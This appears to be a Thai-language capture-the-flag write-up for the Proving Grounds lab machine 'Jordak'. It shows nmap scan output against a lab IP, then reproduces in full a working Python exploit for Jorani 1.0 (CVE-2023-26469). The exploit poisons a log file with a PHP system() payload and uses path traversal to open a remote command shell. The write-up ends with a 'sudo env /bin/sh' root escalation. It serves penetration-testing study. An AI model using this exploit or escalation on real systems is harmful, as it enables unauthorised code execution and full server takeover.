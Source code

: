# Recon

## TCP Scan 

```bash
sudo ../Tools/scan.sh  192.168.175.109
[*] Running rustscan...
[*] Running nmap on ports: 22,80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-24 21:48 +07
Nmap scan report for 192.168.175.109
Host is up (0.032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 76:18:f1:19:6b:29:db:da:3d:f6:7b:ab:f4:b5:63:e0 (ECDSA)
|_  256 cb:d8:d6:ef:82:77:8a:25:32:08:dd:91:96:8d:ab:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: Apache/2.4.58 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.89 seconds

```

จากข้อมูลข้างต้นทดสอบเข้า http://192.168.175.109/evox/about ซึ่งพบว่าสามารถเข้าได้ 
![[Challenge/ProvingGround/Jordak/IMG/001.png]]

นำข้อมูล version ของ Jorani v 1.0  ไปค้นหาจะพบว่ามีช่องโหว่ remote code exec
![[Challenge/ProvingGround/Jordak/IMG/002.png]]

poc.py ที่ได้มาใช้ไม่ได้ ให้ลองใช้อีก payload ด้านล่าง
https://github.com/Orange-Cyberdefense/CVE-repository/blob/master/PoCs/CVE_Jorani.py 

```bash
"""
vulnerability covered by CVE-2023-26469
"""
import readline
import requests
import datetime
import sys
import re
import base64
import random
import string

requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

msg = lambda x,y="\n":print(f'\x1b[92m[+]\x1b[0m {x}', end=y)
err = lambda x,y="\n":print(f'\x1b[91m[x]\x1b[0m {x}', end=y)
log = lambda x,y="\n":print(f'\x1b[93m[?]\x1b[0m {x}', end=y)

CSRF_PATTERN = re.compile('<input type="hidden" name="csrf_test_jorani" value="(.*?)"')
CMD_PATTERN = re.compile('---------(.*?)---------', re.S)

URLS = {
	'login' : '/session/login',
	'view'	: '/pages/view/',
}

alphabet = string.ascii_uppercase
HEADER_NAME = ''.join(random.choice(alphabet) for i in range(12))

BypassRedirect = {
	'X-REQUESTED-WITH'	: 'XMLHttpRequest',
	HEADER_NAME		: ""
}

INPUT = "\x1b[92mjrjgjk\x1b[0m@\x1b[41mjorani\x1b[0m(PSEUDO-TERM)\n$ " # The input used for the pseudo term

u = lambda x,y: x + URLS[y]

POISON_PAYLOAD		= "<?php if(isset($_SERVER['HTTP_" + HEADER_NAME + "'])){system(base64_decode($_SERVER['HTTP_" + HEADER_NAME + "']));} ?>"
PATH_TRAV_PAYLOAD	= "../../application/logs"

if __name__ == '__main__':
	print("""
	/!\\ Do not use this if you are not authorized to /!\\
		""")
	log("POC made by @jrjgjk (Guilhem RIOUX)", "\n\n")

	if(len(sys.argv) == 1):
		err(f"Usage: {sys.argv[0]} <url>")
		exit(0)

	log(f"Header used for exploit: {HEADER_NAME}")	
	

	t = sys.argv[1]

	s = requests.Session()
	log("Requesting session cookie")
	res = s.get(u(t,"login"), verify = False)

	C = s.cookies.get_dict()

	Date = datetime.date.today()
	log_file_name = f"log-{Date.year}-{str(Date.month).zfill(2)}-{str(Date.day).zfill(2)}"

	csrf_token = re.findall(CSRF_PATTERN, res.text)[0] 
	log(f"Poisonning log file with payload: '{POISON_PAYLOAD}'")
	log(f"Set path traversal to '{PATH_TRAV_PAYLOAD}'")
	msg(f"Recoveredd CSRF Token: {csrf_token}")

	data = {
		"csrf_test_jorani"	: csrf_token,
		"last_page"			: "session/login",
		"language"			: PATH_TRAV_PAYLOAD,
		"login"				: POISON_PAYLOAD,
		"CipheredValue"		: "DummyPassword"
	}

	s.post(u(t,"login"), data=data)

	log(f"Accessing log file: {log_file_name}")

	exp_page = t + URLS['view'] + log_file_name

	### Shell
	cmd = ""
	while True:
		cmd = input(INPUT)
		if(cmd in ['x', 'exit', 'quit']):
			break
		elif(cmd == ""):
			continue
		else:
			BypassRedirect[HEADER_NAME] = base64.b64encode(b"echo ---------;" + cmd.encode() + b" 2>&1;echo ---------;")
			res = s.get(exp_page, headers=BypassRedirect)
			cmdRes = re.findall(CMD_PATTERN, res.text)
			try:
				print(cmdRes[0])
			except:
				print(res.text)
				err("Wow, there was a problem, are you sure of the URL ??")
				err('exiting..')
				exit(0)

```

# Shell as jordak

![[Challenge/ProvingGround/Jordak/IMG/003.png]]

ทำ reverse shell กลับไปหาอีกครั้งด้วย OpenSSL 
![[Challenge/ProvingGround/Jordak/IMG/004.png]]
# Priv esc 

![[Challenge/ProvingGround/Jordak/IMG/005.png]]

![[Challenge/ProvingGround/Jordak/IMG/006.png]]
# Shell as root

```bash
sudo env /bin/sh 
```

# PWN 